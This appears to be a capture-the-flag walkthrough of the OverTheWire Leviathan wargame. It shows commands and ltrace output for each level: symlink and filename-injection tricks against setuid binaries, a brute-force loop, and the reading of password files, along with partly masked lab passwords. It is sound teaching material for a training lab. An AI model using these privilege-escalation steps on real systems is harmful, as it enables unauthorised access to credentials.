

## Description 

> This wargame doesn't require any knowledge about programming - just a bit of common
> sense and some knowledge about basic -nix commands. We had no idea that it'd be this
> hard to make an interesting wargame that wouldn't require programming abilities from 
> the players. Hopefully we made an interesting challenge for the new ones.

Play [here](https://overthewire.org/wargames/leviathan/) !


## Level 0

Check your current directory and you will see a hidden folder called *backup*. Move inside and there is a *HTML* file. Use ``cat`` to show its content.

There are many lines and it is difficult to read all of them. Try to combine ``cat`` and ``grep`` : 
```bash
cat bookmarks.html | grep password
```

Look at the output : 
```bash
leviathan0@gibson:~/.backup$ cat bookmarks.html | grep password
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is PPIf--1qsA" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
leviathan0@gibson:~/.backup$
```

We found the password !

<br>

Credentials for the next level :

```bash
ssh leviathan1@leviathan.labs.overthewire.org -p 2223
```

- Username : `leviathan1`
- Password : `PPIf--1qsA`


<br>

## Level 1

There is a *setuid* file which called ``check``. Execute its to see what is happening : 
```bash
leviathan1@gibson:~$ ./check 
password: hello
Wrong password, Good Bye ...
leviathan1@gibson:~$
```

We need to find the correct password. We will use ``ltrace`` to know more about the execution : 
```bash
leviathan1@gibson:~$ ltrace ./check 
__libc_start_main(0x80491e6, 1, 0xffffd5f4, 0 <unfinished ...>
printf("password: ")                                   = 10
getchar(0xf7fbe4a0, 0xf7fd6f90, 0x786573, 0x646f67password: hola
)    = 104
getchar(0xf7fbe4a0, 0xf7fd6f68, 0x786573, 0x646f67)    = 111
getchar(0xf7fbe4a0, 0xf7fd6f68, 0x786573, 0x646f67)    = 108
strcmp("hol", "sex")                                   = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                   = 29
+++ exited (status 0) +++
leviathan1@gibson:~$
```

The ``strcmp("hol", "sex")`` line is interesting. It uses ``strcmp`` function to compare two strings. The `hol` string seems to be our input, so the `sex` string is the password.

Return on the binary. Execute and use `sex` as password : 
```bash
leviathan1@gibson:~$ ./check 
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$
```

It works ! We have a shell as ``leviathan2``. Now, read the content of ``/etc/leviathan_pass/leviathan2``. 

<br>

Credentials for the next level : 

```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

- Username : `leviathan2`
- Password : `mEh5--l10e`

<br>

## Level 2

Again, we have a *setuid* file which called ``printfile``.

Execute the binary : 
```bash
leviathan2@gibson:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@gibson:~$
```

It seems that the binary shows file's content.

It is a *setuid* file so try to print ``/etc/leviathan_pass/leviathan3`` : 
```bash
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
leviathan2@gibson:~$
```

No, we can't :x:

Create a new file in `/tmp` directory and use ``ltrace`` to know more about execution : 
```bash
leviathan2@gibson:/tmp/testdir$ ltrace ~/printfile test.txt 
__libc_start_main(0x80491e6, 2, 0xffffd5a4, 0 <unfinished ...>
access("test.txt", 4)                                  = 0
snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17
geteuid()                                              = 12002
geteuid()                                              = 12002
setreuid(12002, 12002)                                 = 0
system("/bin/cat test.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                 = 0
+++ exited (status 0) +++
leviathan2@gibson:/tmp/testdir$
```

We need to find a way to bypass the ``access()`` function.

We can create a file called ``file1 file2`` to see what is happening : 
```bash
leviathan2@gibson:/tmp/testdir$ ltrace ~/printfile file1\ file2 
__libc_start_main(0x80491e6, 2, 0xffffd5a4, 0 <unfinished ...>
access("file1 file2", 4)                             = 0
snprintf("/bin/cat file1 file2", 511, "/bin/cat %s", "file1 file2") = 20
geteuid()                                            = 12002
geteuid()                                            = 12002
setreuid(12002, 12002)                               = 0
system("/bin/cat file1 file2"/bin/cat: file1: No such file or directory
/bin/cat: file2: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                               = 256
+++ exited (status 0) +++
leviathan2@gibson:/tmp/testdir$
```

As you can see, the ``cat`` command is executed twice. One for `file1` and the other for `file2`.

Create a symbolic file called ``file2`` : 
```bash
ln -s /etc/leviathan_pass/leviathan3 file2
```

Now, execute the binary : 
```bash
leviathan2@gibson:/tmp/testdir$ ~/printfile file1\ file2 
/bin/cat: file1: No such file or directory
Q0G8--sakn
leviathan2@gibson:/tmp/testdir$
```

We've got the password !

<br>

Credentials for the next level : 

```bash
ssh leviathan3@leviathan.labs.overthewire.org -p 2223
```

- Username : `leviathan3`
- Password : `Q0G8--sakn`

<br>

## Level 3

In the home directory, there is a *setuid* file called `level3`. Execute the binary : 
```bash
leviathan3@gibson:~$ ./level3 
Enter the password> dl
bzzzzzzzzap. WRONG
leviathan3@gibson:~$
```

Like the **Level 1**, we will use ``ltrace`` to know more about the execution :
```bash
leviathan3@gibson:~$ ltrace ./level3 
__libc_start_main(0x80492bf, 1, 0xffffd5f4, 0 <unfinished ...>
strcmp("h0no33", "kakaka")                           = -1
printf("Enter the password> ")                       = 20
fgets(Enter the password> def
"def\n", 256, 0xf7e2a620)                      = 0xffffd3cc
strcmp("def\n", "snlprintf\n")                       = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                           = 19
+++ exited (status 0) +++
leviathan3@gibson:~$
```

Here too, the program uses the `strcmp` function to compare two strings.

Now, we know the password so execute one more time and read the content of ``/etc/leviathan_pass/leviathan4``

<br>

Credentials for the next level : 

```bash
ssh leviathan4@leviathan.labs.overthewire.org -p 2223
```

- Username : `leviathan4`
- Password : `Agvr--I4OA`

<br>

## Level 4

Use ``ls -la`` to list file in the current directory. There is an hidden folder called `.trash`. Move inside and list its content. There is a *setuid* file.

Execute ``./bin`` : 
```bash
leviathan4@gibson:~/.trash$ ./bin 
01000101 01001011 01001011 01101100 01010100 01000110 00110001 01011000 01110001 01110011 00001010 
leviathan4@gibson:~/.trash$
```

It seems that the output is encoded with binary (0 and 1).

Go on [CyberChef](https://gchq.github.io/CyberChef/) to decode the string : 


This is the password !

<br>

Credentials for the next level : 

```bash
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

- Username : `leviathan5`
- Password : `EKK--F1Xqs`

<br>

## Level 5

Here too, there is a *setuid* file. When you execute the binary : 
```bash
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@gibson:~$
```

Create `/tmp/file.log` file and execute once again : 
```bash
leviathan5@gibson:~$ touch /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
leviathan5@gibson:~$
```

Nothing happened. I tried to create a symbolic file called ``/tmp/file.log`` and re-execute : 
```bash
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ5--PVk2l
leviathan5@gibson:~$
```

It works !

<br>

Credentials for the next level : 

```bash
ssh leviathan6@leviathan.labs.overthewire.org -p 2223
```

- Username : `leviathan6`
- Password : `YZ5--PVk2l`

<br>

## Level 6

Like the previous levels, we have another *setuid* file.

Execute the binary : 
```bash
leviathan6@gibson:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
leviathan6@gibson:~$
```

We need to know a four digit code. We will use **BruteForcing** method.

Use the following bash command : 
```bash
for code in {0000..9999}; do
    ./leviathan6 $code
done
```

Wait a little and a shell will spawn : 
```bash
----------REDACTED--------------
Wrong
Wrong
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)
$
```

Read the ``/etc/leviathan_pass/leviathan7`` file.


<br>

Credentials for the next level : 

```bash
ssh leviathan7@leviathan.labs.overthewire.org -p 2223
```

- Username : `leviathan7`
- Password : `8GpZ--8Hze`

<br>

## Level 7

There is a ``CONGRATULATIONS`` file. Open it : 
```bash
leviathan7@gibson:~$ cat CONGRATULATIONS 
Well Done, you seem to have used a *nix system before, now try something more serious.
leviathan7@gibson:~$
```

Well done !

<br>

# Conclusion

**Leviathan** is a simple lab from **OverTheWire**. It learns basic privilege escalation methods, so it is useful for **CTFs**.

Thanks for reading !
